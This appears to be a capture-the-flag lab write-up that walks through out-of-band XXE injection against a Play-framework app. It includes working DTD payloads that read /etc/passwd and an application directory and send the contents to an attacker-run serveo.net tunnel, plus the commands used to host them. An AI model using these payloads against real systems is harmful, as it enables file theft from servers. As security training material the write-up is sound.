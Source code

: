 

## Re-Product

login request

![login](image.png)

This lab to Play XML, should I try some payload XXE injection

Serve dtd File using 

python serv file local

> python -m http.server 3000

Serveo to publish python server

> ssh -R nvth:80:localhost:3000 serveo.net

DTD file below

```xml
<?xml version="1.0"?>
    <foo>bar</foo>
``` 
Server throw 400 HTTP Code

Successfully XML retrieving

![retrieving](image-2.png)

![Success](image-1.png)

create payload look like this, i named this payload `exploit.dtd`

DTD file 

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/?%p1;'>">
%p2;
```

on Burpsuite, after send Request to confirm XXE vulnerable, I modified it to retrieving content.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/exploit.dtd">
<foo>&e1;</foo>
```
Serv the file with `serveo` and `python server` to retrieving data `/etc/passwd` from server


showing etc/pass/

![etcpass](image-3.png)


I try retrieving this account `play` user

![retrieving-otp/play](image-4.png)

Modify DTD payload `etc/passwd` to `/otp/play`

its named `exploit2.dtd`

```dtd
<!ENTITY % p1 SYSTEM "file:////opt/play-2.1.3">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/?%p1;'>">
%p2;
```

we got here some file, I am trying to get the flag.

![retriev-otp-play-directory](image-5.png)

URL decode 

![url-decode](image-6.png)

```h
GET /?CONTRIBUTING.md
framework
play
play.bat
README.md
repository
xxe
```

continue retriev all directory

Finally, i got that the `secret url`

![got secret url](image-7.png)

Finished this lab 

![finishing](image-8.PNG)

## Reference
https://portswigger.net/web-security/xxe